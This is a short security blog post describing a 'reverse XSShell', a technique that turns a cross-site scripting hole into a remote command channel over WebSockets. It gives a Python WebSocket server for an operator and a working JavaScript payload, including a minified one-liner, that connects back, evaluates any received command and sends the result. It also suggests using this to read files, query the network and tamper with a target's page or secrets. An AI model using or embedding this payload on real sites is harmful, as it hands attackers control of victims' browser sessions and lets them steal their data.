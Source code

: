 ```yaml
---
author: "Laluka"
title: "Reverse XSShell"
slug: "reverse_xsshell"
date: 2020-02-22
status: "original"
description: "Having some fun playing with xss and websockets. A different approach to reverse shell and their contexts!"
---
```


# The initial idea

While auditing a website, I found out they were using websockets to transmit data. I didn't knew much about it so I had to [ReadTheFancyManual](https://rtfm.re/). Once I understook that it was... Well... A socket one could use with web technologies, I asked myself "What do I usually do with sockets?"

Tunnels! Transfer files! Or... Spawn reverse shells?!

Or... Spawn a reverse XSShell??


# What do we need?

## A websocket server

```python
import asyncio
import websockets


async def hello(websocket, path):
    print("WebSocket received")

    while True:
        cmd = input("cmd > ")
        await websocket.send(cmd)
        print(f"sent: {cmd}")

        out = await websocket.recv()
        print(f"out : {out}\n")

start_server = websockets.serve(hello, "localhost", 8080)

asyncio.get_event_loop().run_until_complete(start_server)
asyncio.get_event_loop().run_forever()
```

## Some javascript to connect back

- Readable version

```javascript
var socket = new WebSocket("ws://localhost:8080/");

socket.onopen = function() {
  console.log("Connected!");
};

socket.onmessage = function(event) {
  console.log("Cmd received", event.data);
  socket.send(eval(event.data));
  // socket.close();
};
```

- Actual payload I use

```javascript
s=new WebSocket("ws://localhost:8080/"),s.onmessage=function(ev){try{s.send(eval(ev.data))}catch(e){s.send(e)}};
```

## An html page to execute the payload

> Who cares about html anyway?

## In short

The code can be found here : https://gitlab.com/TheLaluka/ctf_utils/-/tree/master/web/websocket_xss

And what this gives us is a reverse shell in a javascript (browser / renderer) context. What you can do from here is up to you.. Try to read files, query the network, mess with your target's DOM or secrets... Have fun ! :)

# Demo

<img class="img_big" src="/hacking/reverse_xsshell/demo.png" alt="demo">


# Limitations

- You still need an xss little restrictions (use eval, long payload, ...)
- The reverse xsshell can be blocked on its way back by a firewall / proxy / SOP / CSP / ...
- Blocking actions (alert, prompt, redirect, ...) will break the current shell (trig xss again!)


# Appendix

Once again, after spending some time playing arount with a new idea, I start googling it and... Well, it's not _really_ something new. It's just about re-discovering [what others found before](https://github.com/raz-varren/xsshell). That being said, I love one-liners and keeping things as simple as possible, so it's not the same-same.. :)


<img class="img_big" src="/hacking/reverse_xsshell/same_but_different.gif" alt="same_but_different">